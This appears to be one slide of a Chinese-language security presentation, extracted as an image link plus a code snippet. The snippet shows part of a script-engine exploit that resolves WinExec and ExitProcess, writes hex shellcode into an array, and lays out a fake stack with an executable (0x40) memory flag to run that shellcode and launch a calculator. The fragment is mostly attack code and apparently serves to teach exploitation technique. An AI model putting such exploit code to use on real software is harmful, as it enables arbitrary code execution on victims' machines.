

# 脚本维度
var WinExec = GetProcAddress(kernel32, "WinExec");
…
ptArr[0] = WinExec;
ptArr[1] = ExitProcess;
ptArr[2] = strCalcAddr;
var scStr = "558BEC83EC0CBD" + numToHexStr(ptArrAddr + 0x0C) +
            "6A01FF75FCFF55F46A00FF55F8C9C3";
writeHexStrToArr(scStr, scArr);
stackArr[esp]   = scArrAddr;            // return address
stackArr[esp+1] = makeAlign(scArrAddr);
stackArr[esp+2] = 0x4000;               // size
stackArr[esp+3] = 0x40;                 // RWE flag
stackArr[esp+4] = stackArrAddr;
…